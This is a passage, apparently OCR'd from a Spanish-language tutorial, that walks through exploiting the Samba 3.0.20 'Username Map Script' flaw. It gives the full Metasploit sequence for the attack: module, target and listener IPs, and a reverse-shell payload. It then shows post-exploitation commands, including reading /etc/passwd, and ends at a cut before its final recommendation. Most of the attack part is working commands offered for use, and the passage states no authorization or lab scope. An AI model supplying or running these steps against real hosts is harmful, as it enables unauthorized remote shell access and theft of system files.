 ```
Samba 3.0.20 < 3.0.25rc3 - 'Username Map Script' Command Execution
```

---

#### Paso 3: Usar Metasploit para explotar

```bash
msfconsole
```

Dentro de Metasploit:

```bash
use exploit/multi/samba/usermap_script
set RHOST 192.168.1.100
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.101  # Tu IP
run
```

🎉 ¡Explotado! Obtienes una **shell remota** en la máquina vulnerable.

---

#### Paso 4: Post-explotación

Ya dentro de la máquina:

```bash
whoami
ls -la
cat /etc/passwd
```

Puedes navegar por el sistema, leer archivos sensibles, etc.

---

### 🧾 Resumen

| Elemento                | Descripción clara                        |
| ----------------------- | ---------------------------------------- |
| ¿Qué es la explotación? | Aprovechar vulnerabilidades para atacar  |
| ¿Qué técnicas se usan?  | Inyección, RCE, fuerza bruta, LFI, etc.  |
| ¿Cómo se hace?          | Con herramientas como Metasploit, sqlmap |
| ¿Qué se necesita?       | Conocimiento, entorno de prueba, escaneo |
| ¿Qué pasa después?      | Post-explotación: leer, moverse, escalar |

---

### 🛡️ Recomendación final
